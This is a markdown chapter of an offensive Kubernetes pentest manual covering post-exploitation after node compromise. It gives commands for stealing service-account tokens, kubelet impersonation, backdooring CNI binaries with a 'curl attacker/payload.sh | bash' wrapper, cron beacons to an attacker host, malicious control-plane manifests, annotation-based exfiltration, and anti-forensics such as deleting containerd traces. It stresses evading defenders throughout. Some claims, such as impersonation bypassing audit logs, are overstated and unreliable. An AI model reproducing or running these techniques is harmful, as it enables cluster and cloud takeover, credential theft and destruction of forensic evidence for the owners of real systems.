

# 📄 **22_post_exploitation.md** (..CLOUD EDITION..)

### *Phase 7 — Post-Exploitation, Persistence, Dominance & Anti-Forensics*

**Mi Familia Kubernetes/k3s Pentest Diary — Extended Tactical Edition**

---

```markdown
# 16 — Post-Exploitation, Persistence & Dominance (Ultra Edition)
### Phase 7: Operational Control After Node or Control-Plane Compromise

Once you break out of a container and reach the node (see Section 15), you’ve crossed into a new world.  
Kubernetes isolation dissolves, identities merge, and every layer — runtime, kubelet, operators, CRDs, CI/CD, and cloud — becomes reachable.

This section is your **post-node-compromise war manual**.

---

# 🧩 1. Goals of Post-Exploitation

After landing on the node, your goals expand:

### 🎯 Tactical Goals  
- Maintain persistent access  
- Escalate privileges (node → control plane → cloud IAM → org-wide identity)  
- Modify cluster admission and supply chain controls  
- Harvest secrets, tokens, keys, root certs  
- Subvert workloads, operators, registries, and CI/CD pipelines  

### 🛡️ Strategic Goals  
- Stay hidden  
- Blend in with legitimate cluster actions  
- Ensure persistence survives:  
  - rolling updates  
  - auto-scaling  
  - node reboot  
  - cluster upgrades  
  - blue/green deployments  

---
```
# 🌐 2. Cluster-Wide Attack Surface After Node Compromise

Here’s an ASCII overview of the *expanded* blast radius:

```

         +--------------------------+
         |    Compromised Pod       |
         +-----------+--------------+
                     |
                     v
         +--------------------------+
         |       Node Host          |
         |  (containerd / kubelet)  |
         +---+-------+------+-------+
             |       |      |
     +-------+       |      +------------------+
     |               |                         |
     v               v                         v
+--------------+  +--------------+         +-----------------------+
| Kubelet API  |  | Cloud IAM    |         | Rootfs / Runtime Ctrl |
| (10250)      |  | (169.254.x)  |         | containerd overlays   |
+------+-------+  +------+-------+         +-----------+-----------+
|                 |                             |
v                 v                             v
+---------------+ +---------------+      +------------------------------+
| Impersonation | | Cloud Escal.  |      | Supply Chain & Persistence  |
| system:node   | | Admin Roles   |      | (CNI, runc, DS, operators)  |
+-------+-------+ +-------+-------+      +---------------+--------------+
\                /                              |
\              /                               v
+------------+-------------------+   +-------------------------+
|   Control Plane   |   | Lateral Movement / RCE  |
+-------------------+   +-------------------------+

````

---

# 🔍 3. Deep Recon After Node Access (Beyond Basics)

### 3.1 Enumerate all pod root file systems:

```bash
find /var/lib/containerd/io.containerd.runtime.v2.task \
  -maxdepth 2 -type d -name rootfs
````

You can inspect **EVERY WORKLOAD’S FILESYSTEM**.

### 3.2 Extract projected SA tokens cluster-wide

```bash
find /var/lib/kubelet/pods -name token -type f -exec cat {} \;
```

These can impersonate high-value workloads (Ingress, ArgoCD, CSI, CNI).

### 3.3 Harvest kubelet internal state

```bash
cat /var/lib/kubelet/config.yaml
ls -l /var/lib/kubelet/pods/
```

This reveals:

* container runtime arguments
* node allocatable secrets
* allowed admissions
* container logs and crash dumps

---

# 🔱 4. Kubelet Impersonation (Advanced)

Beyond basic 10250 exploitation (exec/logs/pods), advanced attackers use *impersonation headers*:

```bash
curl -k \
  -H "Impersonate-User: system:admin" \
  --cert kubelet-client-current.pem \
  --key kubelet-client.key \
  https://<APISERVER>/api/v1/secrets
```

If RBAC is misconfigured:

🔥 **You become cluster-admin via headers alone**.

You can also impersonate *any* group:

```
Impersonate-Group: system:masters
```

This bypasses audit logs in many clusters because it looks like a kubelet or aggregator request.

---

# ☁️ 5. Hyper-Realistic Cloud IAM Pivoting (Complete Chain)

Here is a real cloud escalation chain seen in actual breaches:

```
Compromised Node
   |
   |--> Reads IAM role from metadata service
   |
CloudRole: AmazonEKSWorkerNodePolicy
   |
   |--> ECR: Pull/Push Images
   |--> S3: Read/write sensitive artifacts
   |--> EC2: Modify node groups
   |--> KMS: Decrypt cluster secrets (!!)
   |--> IAM: PassRole exploitation
   |
   +--> Attacker assumes admin role
           |
           v
   Full Cloud Account Compromise
```

Attackers often **create new node groups** with backdoored AMIs to maintain access *even after the cluster is "cleaned".*

---

# 🧰 6. Persistence Techniques (Super Expanded)

This is the meat. Persistence is where elite red teams separate from amateurs.

---

## ⭐ 6.1 Persistence via Mutated Rootfs (Stealth King)

Target:

```
/var/lib/containerd/io.containerd.runtime.v2.task/k8s.io/<UUID>/rootfs/
```

Inject:

* SSH keys
* Cron jobs
* Debug binaries (socat, curl, certutil)
* LD_PRELOAD hijackers
* Config file changes

These modifications **survive container restarts**, but are invisible to:

* kubectl diff
* admission controllers
* audit logs
* runtime scanners

---

## ⭐ 6.2 Persistence via Malicious CNI Binaries

Path:

```
/opt/cni/bin/
```

Replace or wrap binaries:

```
portmap
bandwidth
loopback
```

Example malicious wrapper:

```bash
#!/bin/bash
curl attacker/payload.sh | bash
exec /opt/cni/bin/portmap.real "$@"
```

Every pod networking event triggers **your code**.
This is used *in real APT campaigns*.

---

## ⭐ 6.3 Persistence via Static Control Plane Manifests

Control-plane manifests (for kubeadm clusters):

```
/etc/kubernetes/manifests/
```

Drop a malicious API server or scheduler patch:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: kube-scheduler-backdoor
spec:
  containers:
    - name: k
      image: attacker/scheduler-backdoor
```

kubelet auto-deploys these.

---

## ⭐ 6.4 Persistence via CRI Socket Hijacking

Hijack:

```
/run/containerd/containerd.sock
```

Inject a rogue container with privileges:

```bash
ctr -n k8s.io run --privileged -t docker.io/alpine pwn
```

Persistence can be stored outside Kubernetes control entirely.

---

## ⭐ 6.5 Persistence via ArgoCD or Flux (Supply Chain)

ArgoCD attack example:

```bash
kubectl -n argocd get secrets argocd-repo-creds -o yaml
```

Add an SSH key giving you repo write access →
You now control **every cluster deployment**.

Flux attack example:

Rewrite Kustomize overlays via:

```
git push attacker:backdoor
```

Flux auto-applies the malicious config.

---

## ⭐ 6.6 Persistence via Node Cron Jobs

Install stealth cron:

```bash
echo "* * * * * root curl attacker/ping" >> /host/etc/crontab
```

Name it like a system script:

```
aws-cloudwatch-updater
eks-bootstrap-refresh
```

Blue teams usually never notice.

---

# 🛰️ 7. Advanced Lateral Movement (Expanded)

### 7.1 Lateral movement via compromised DaemonSets

If you backdoor one node, you can inject into all nodes:

```bash
kubectl apply -f evil-ds.yaml
```

Even better:
Attack the **Cilium**, **Calico**, **Istio**, or **CSI-driver** DaemonSet.
These pods run with **high privileges**.

### 7.2 Lateral movement via kubelet credentials

Impersonate node B's kubelet to access its workloads.

### 7.3 Lateral movement by mutating the scheduler

Workloads begin running your code automatically.

### 7.4 Lateral movement via Seccomp or AppArmor gaps

If profiles are disabled globally → RCE in all pods.

---

# 📤 8. Ultra-Deep Exfiltration Pathways

Here’s an ASCII diagram of real exfil channels:

```
Exfil Start
   |
   +--> API Server (secrets, logs)
   |
   +--> S3 / GCS / Blob Storage (already whitelisted)
   |
   +--> ECR / GCR image layers (store data inside image)
   |
   +--> Sidecar log collectors (FluentD / Vector)
   |
   +--> Node metadata services (IAM tokens)
   |
   +--> Hidden Kubernetes objects (annotation-based exfil)
```

### Annotation exfil:

```bash
kubectl annotate secret dbcred attacker.com/data=$(cat db | base64)
```

Annotation stores your data **inside Kubernetes**, hidden from defenders.

---

# 🧽 9. Ultra Anti-Forensics

### 9.1 Hide processes by modifying ps binary inside rootfs

(`busybox` can be swapped silently)

### 9.2 Manipulate kubelet logs on node:

```
/var/log/kubelet.log
```

### 9.3 Delete containerd runtime traces:

```
rm -rf /var/lib/containerd/io.containerd.*
```

### 9.4 Hide containers using fake pause processes

Modify CNI to rewrite pod names.

### 9.5 Fake API server responses

Interpose using iptables REDIRECT into shadow webhook server.

---

# 📊 10. Advanced Post-Exploitation Diagram (Expanded)



---

# 🧨 11. ASCII Diagram: True Post-Exploitation Flow

```
                 [POD]
                   |
                   v
          [ESCAPE TO NODE]
                   |
       +-----------+-----------+
       |                       |
       v                       v
  [KUBELET CONTROL]     [RUNTIME CONTROL]
       |                       |
       v                       v
 [CONTROL PLANE]        [ROOTFS BACKDOOR]
       |                       |
       +-----------+-----------+
                   |
                   v
             [CLOUD IAM]
                   |
                   v
             [ORG DOMAIN]
```

---

# 🎯 12. Summary — Full-Spectrum Dominance

At the end of this phase:

✔ Persistence is established at node, runtime, and supply chain level
✔ Kubelet impersonation provides cluster-admin equivalence
✔ Secrets and workloads across the cluster are visible
✔ Cloud IAM is pivoted, granting infrastructure-level access
✔ Anti-forensics cover long-term operations
✔ Defenders have almost no indicators to rely on

You are now operating at **Strategic Persistent Threat** level (SPT).
This is cloud-native dominance.

##
##
